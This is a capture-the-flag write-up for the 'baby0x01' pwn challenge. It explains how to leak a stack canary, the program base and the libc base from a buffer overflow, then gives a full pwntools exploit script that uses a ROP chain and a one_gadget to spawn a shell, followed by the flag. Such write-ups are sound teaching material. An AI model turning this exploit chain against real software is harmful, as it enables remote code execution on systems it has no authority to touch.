 # baby0x01

## pwn - Points: 537

> You gotta crawl before you can walk...
>
> [chall](chall)

The binary has all typical security mechanisms enabled:

```bash
$ checksec chall
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

It lets us read as many bytes as we want into a 72 byte buffer as many times as we want. The program returns when we enter nothing, so we can overflow the buffer and get code execution.

In order to overwrite the `RIP` we have to leak the canary value. The variable that contains the value lies directly behind the buffer we are writing to, so we have only have to overwrite a single byte `0x0a` and the `printf` call of the program prints out our input followed by the canary value.

We are now able to overwrite the canary variable with the correct value and have control of the `RIP`. Now where should we jump to? Since `NX` is enabled we have to use `ROP` and `ret-2-libc` to spawn our shell.

Since `PIE` is also enabled we have to leak the correct base address of our program. Right after the canary value and right before the `RIP` lies the `RBP`, that we can read out similarly to the canary. 

To be able to calculate the addresses inside the `libc` we have to leak its base address. To achieve this, we build a `ROP` chain that calls the `puts` function with the argument of the `puts` entry in the `GOT` table. This will now print out the address of `puts` that we can use to calculate the `libc` base. To spawn the shell we can use `one_gadget` with the found offset.

Here is the full exploit script:
```python
from pwn import *


libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
e = ELF('chall')

p = process('chall')

p.sendlineafter('buffer: ', 'A' * 72 + 'x')
p.recvuntil('x')

canary = u64('\x00' + p.recv(7))
log.info('canary: {}'.format(hex(canary)))

p.sendlineafter('buffer: ', 'A' * 72 + 'B' * 8 + 'x')
p.recvuntil('x')

base_addr = u64('\x00' + p.recv(5) + '\x00\x00') - 0xb00
log.info('base: {}'.format(hex(base_addr)))

pop_rdi_ret = 0x0000000000000c33 # pop rdi ; ret

p.sendlineafter('buffer: ', 'A' * 72 + p64(canary) + p64(0x0) + p64(base_addr + pop_rdi_ret) + p64(base_addr + e.got['puts']) + p64(base_addr + e.plt['puts']) + p64(base_addr + 0x7d0))
p.sendlineafter('buffer: ', '')

leak = u64(p.recvline()[:-1] + '\x00\x00')
libc_base = leak - libc.symbols['puts']
log.info('libc base: {}'.format(hex(libc_base)))
one_gadget = libc_base + 0x4f2c5

p.sendlineafter('buffer: ', 'A' * 72 + p64(canary) + p64(0x0) + p64(one_gadget))
p.sendlineafter('buffer: ', '')
p.interactive()
```

flag: `SECT{g0_Go_g4dG37_m4st3r}`